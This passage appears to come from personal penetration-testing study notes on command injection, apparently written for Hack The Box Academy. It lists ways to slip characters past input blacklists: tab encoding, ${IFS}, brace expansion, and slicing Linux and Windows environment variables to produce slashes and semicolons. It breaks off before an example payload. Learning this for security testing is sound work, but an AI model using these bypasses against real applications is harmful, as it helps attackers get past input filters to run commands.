 >-t /tmp/traffic.txt
>
># Verbose (level)
>-v 3 # (or higher) displays the payloads used
>-v 6 # displays all errors and full HTTP requests to the terminal
>
># Proxy
>--proxy 127.0.0.1:8080
>```
### Command Injection

[PayloadsAllTheThings command injection reference](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)

>[!code]- Command escape characters
>All of these operators (except the semi-colon for Windows command Line) can be used **regardless of the web application language, framework, or back-end server!**
>
>![[Images/Pasted image 20250505070004.png]]
###### Bypassing blacklisted characters

>[!code]- Space character
>###### Linux
>```powershell
>%09 # TAB
>
>${IFS} # a variable whose default value is a space and a tab
>
>{ls,-la} # Bash bracket expansion, which automatically adds spaces between arguments wrapped between braces
>```
>Others given in the [PayloadsAllTheThings guide](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space).

>[!code]- Using environment variables
>###### Linux
>Print all environment variables using `printenv`.
>```powershell
># Takes the first character of the PATH/PWD/HOME variable, which is often a forward slash
>
>${PATH:0:1} # Forward slash (/)
>${PWD:0:1} # Forward slash (/)
>${HOME:0:1} # Forward slash (/)
>
># Takes the 10th character from the LS_COLORS variable, which is often a semi-colon
>
>${LS_COLORS:10:1} # Semi-colon (;)
>```
>###### Windows
>Print all environment variables using `Get-ChildItem Env:`.
>```powershell
># %HOMEPATH% -> \Users\htb-student
># Output character at 6th starting position and ending at 11th from end
>
>%HOMEPATH:~6,-11% # Black slash (\) - DOS
>$env:HOMEPATH[0] # Black slash (\) - PowerShell
>```
>
>>[!exploit]- Example (Hack The Box Academy)
>>The vulnerable input:
>>
>>![[Images/Pasted image 20250506062234.png]]
>>
>>The payload: